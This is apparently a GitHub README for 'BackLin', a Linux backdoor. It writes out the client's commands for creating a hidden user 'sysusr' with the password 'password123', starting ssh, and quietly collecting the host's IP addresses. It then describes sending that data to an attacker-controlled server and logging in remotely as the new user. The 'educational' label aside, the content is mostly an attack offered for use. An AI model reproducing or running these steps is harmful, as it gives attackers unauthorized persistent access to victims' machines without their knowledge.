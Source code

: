 # BackLin
## Linux Backdoor

## CREATED FOR EDUCATIONAL PURPOSES, USE ONLY FOR EDUCATIONAL PURPOSES

### NOTE: This code requires that the victim enter their password since it requires sudo permissions, this should come off as suspicious to them

All the client code does is:

1. Add a new user named sysusr w/the password password123
2. Open up ssh
3. Grab the system's public & private IP
4. Send the gathered data (the ips, newly created user) to a server the attacker controls 

Compile the client python code with:

```
pyinstaller --clean -F <python-file-path>
```

The server side code is stolen from [here](https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7) 

From my understanding, all the server code does is use Python's simple http server functionality & expands on it to allow it to accept POST requests.

All our client code does is create a new user named sysusr:
```
sudo adduser --quiet --disabled-password --shell /bin/bash --home /home/sysusr/ --gecos "User" sysusr
```
Then it starts up ssh
```
sudo service ssh start
```
Then it adds the password "password123" to our new user:
```
echo 'sysusr:password123' | sudo chpasswd sysusr
```
Now, we do 2 things: grab the public & private IP address of the system & store the output in a variable & suppress the output from the victim:
```
hostname -I &> /dev/null
curl -s http://ifconfig.me &> /dev/null
```

Finally, we check if the user we created exists to make sure everything went smoothly:
```
id sysusr
```

And from line 16 to line 22, we send the data about our system (public ip, private ip, new username, etc) to a webserver where our server code is running.

Now we run the server.py file & then on the victim machine, we run the client executable:

![](/imgs/img.png)

We receive a POST request on our server, which will be logged into a text file:

![](/imgs/img2.png)

On the attacker machine, we attempt to login to the user "usrsys" using the password "password123" & we're successful!

![](/imgs/img3.png)
